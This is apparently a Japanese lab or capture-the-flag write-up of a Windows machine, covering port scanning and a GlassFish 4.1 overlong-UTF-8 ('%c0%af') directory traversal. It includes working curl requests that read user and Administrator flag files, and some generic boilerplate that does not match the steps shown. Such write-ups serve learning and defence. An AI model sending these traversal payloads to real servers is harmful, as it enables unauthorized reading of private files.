

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows |
| 難易度 | Easy |
| 攻撃対象 | Web (GlassFish 4.1 ポート4848、SynaMan ポート6060) |
| 主な侵入経路 | GlassFish 4.1 のUTF-8エンコード `%c0%af` によるディレクトリトラバーサル (CVE-2017-1000028 / EDB-39441) |
| 権限昇格経路 | 同一脆弱性 — Administratorデスクトップの直接ファイル読み取り |

## 認証情報

認証情報なし（攻撃は完全に非認証のファイル読み取り）。

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.168:135
Open 192.168.198.168:139
Open 192.168.198.168:445
Open 192.168.198.168:3389
Open 192.168.198.168:3700
Open 192.168.198.168:4848
Open 192.168.198.168:5040
Open 192.168.198.168:6060
Open 192.168.198.168:7676
Open 192.168.198.168:7776
Open 192.168.198.168:8080
Open 192.168.198.168:8181
Open 192.168.198.168:8686
```

```bash
PORT      STATE SERVICE              VERSION
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server        Microsoft Terminal Services
| ssl-cert: Subject: commonName=Fishyyy
3700/tcp  open  giop
4848/tcp  open  http                 Sun GlassFish Open Source Edition  4.1
|_http-title: Login
6060/tcp  open  x11?                 (Synametrics Web Server v7 / SynaMan 5.1)
7676/tcp  open  java-message-service Java Message Service 301
7776/tcp  open  java-rmi             Java RMI
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.1
|_http-title: Data Web
8181/tcp  open  ssl/http             Sun GlassFish Open Source Edition  4.1
8686/tcp  open  java-rmi             Java RMI
```

多数のサービスが動作していた。GlassFish 4.1はポート4848（管理コンソール）、8080（アプリケーション）、8181（SSL）で公開されていた。SynaMan 5.1ファイルマネージャーはポート6060。searchsploitで既知のディレクトリトラバーサルを確認:

```bash
searchsploit oracle glassfish
```

```bash
Oracle GlassFish Server 4.1 - Directory Traversal  | multiple/webapps/39441.txt
```

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

EDB-39441はGlassFish 4.1のUTF-8オーバーロングエンコーディング（`%c0%af` は `/` を表す）を使用したディレクトリトラバーサルを記述している。脆弱性はポート4848の管理コンソールに存在する:

まず、ユーザーディレクトリを列挙:

```bash
curl http://192.168.198.168:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afUsers/
```

```bash
Administrator
All Users
arthur
Default
Default User
desktop.ini
Public
```

ユーザーフラグの読み取り:

```bash
curl http://192.168.198.168:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afUsers/arthur/desktop/local.txt
```

```bash
6502c9405e0023e2023234bbf9b69dbd
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
同じディレクトリトラバーサル脆弱性を使用してAdministratorのproofフラグを直接読み取った:

```bash
curl http://192.168.198.168:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afUsers/administrator/desktop/proof.txt
```

```bash
7eb605ace99f2712d737ea97ac2834d2
```

シェルアクセスや追加の権限昇格は不要だった — ディレクトリトラバーサルによりAdministratorファイルを含むファイルシステム全体への読み取りアクセスが可能だった。

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- GlassFish 4.1にはUTF-8オーバーロングエンコーディング（`%c0%af`）を使用したディレクトリトラバーサルが存在する — パッチ済みバージョンに更新すべき。
- `%c0%af` エンコーディングは `../` シーケンスをブロックする標準的なパス正規化をバイパスする。
- DVR4と同様、任意ファイル読み取り脆弱性だけで対話的シェルアクセスなしに全フラグを取得できる場合がある。
- 複数の公開サービス（GlassFish、SynaMan、Java RMI）は攻撃面を拡大する — 公開サービスを最小限に抑えるべき。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- EDB-39441 — Oracle GlassFish Server 4.1 Directory Traversal: https://www.exploit-db.com/exploits/39441
- CVE-2017-1000028: https://nvd.nist.gov/vuln/detail/CVE-2017-1000028
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
